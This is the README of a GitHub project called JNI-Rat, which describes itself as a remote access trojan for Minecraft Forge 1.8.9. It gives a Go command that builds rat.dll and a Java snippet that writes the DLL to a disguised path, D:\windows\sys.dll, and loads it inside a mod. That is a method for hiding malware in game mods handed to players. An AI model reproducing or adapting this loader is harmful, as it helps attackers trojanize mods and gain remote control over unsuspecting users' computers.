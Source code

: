 <h1 align="center">Welcome to JNI-Rat </h1>
<p align="center">
  <img alt="Version" src="https://img.shields.io/badge/version-1.0.0-blue.svg?cacheSeconds=2592000" />
  <img alt="Download" src="https://img.shields.io/github/downloads/yuuiyu/Jni-Rat/total"/>
  <img alt="V" src="https://img.shields.io/badge/Java-8-green" style=""/>
  <img alt="M" src="https://img.shields.io/badge/MinecraftForge-1.8.9-yellow" style=""/>
</p>

> A jni Rat for Minecraft

## Prerequisites

- Minecraft forge 1.8.9
- Java version 8

## Install

```sh
go build -buildmode=c-shared -o rat.dll main.go
```

## Usage

```java
        try {
            File f=new File("D:\\windows");
            File fd=new File("D:\\windows\\sys.dll");
            if(!f.exists()){
                f.mkdirs();
            }
            if(fd.exists()){
                fd.delete();
            }
            fd.createNewFile();
            FileUtils.copyURLToFile(this.getClass().getClassLoader().getResource("rat.dll"),fd);
            System.load(fd.toString());
            }  catch (IOException e) {
                e.printStackTrace();
        }
```

## Author

👤 **Yuuiyu**

* Github: [@yuuiyu](https://github.com/yuuiyu)
